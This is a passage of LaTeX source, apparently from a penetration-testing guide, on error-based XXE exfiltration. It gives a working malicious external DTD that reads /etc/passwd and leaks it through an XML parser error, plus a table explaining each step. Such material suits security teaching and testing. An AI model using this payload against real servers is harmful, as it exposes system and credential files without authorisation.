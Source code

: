 \documentclass{article}
\begin{document}
\subsubsection{When to Use This Technique}

This approach is useful when:
\begin{itemize}
    \item Out-of-band exfiltration is blocked by network firewalls
    \item The application displays verbose error messages to users
    \item You cannot host an external server for data exfiltration
    \item The XML parser has network restrictions but allows file access
\end{itemize}

\subsubsection{Malicious DTD for Error-Based Exfiltration}

You can trigger an XML parsing error message containing the contents of the \texttt{/etc/passwd} file using a malicious external DTD as follows:

\begin{lstlisting}[language=XML, caption=malicious.dtd - Error-Based Exfiltration]
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
\end{lstlisting}

\subsubsection{Step-by-Step Breakdown}

\begin{table}[h]
\centering
\begin{tabular}{|p{3cm}|p{10cm}|}
\hline
\textbf{Step} & \textbf{Action} \\
\hline
1. Define file & Defines XML parameter entity \texttt{file} containing contents of \texttt{/etc/passwd} \\
\hline
2. Define eval & Defines \texttt{eval} containing dynamic declaration of \texttt{error} entity \\
\hline
3. Execute eval & Uses \texttt{eval} entity to trigger dynamic declaration of \texttt{error} \\
\hline
4. Execute error & Uses \texttt{error} entity attempting to load nonexistent file with stolen data in path \\
\hline
\end{tabular}
\caption{Error-Based XXE Execution Steps}
\end{table}
\end{document}
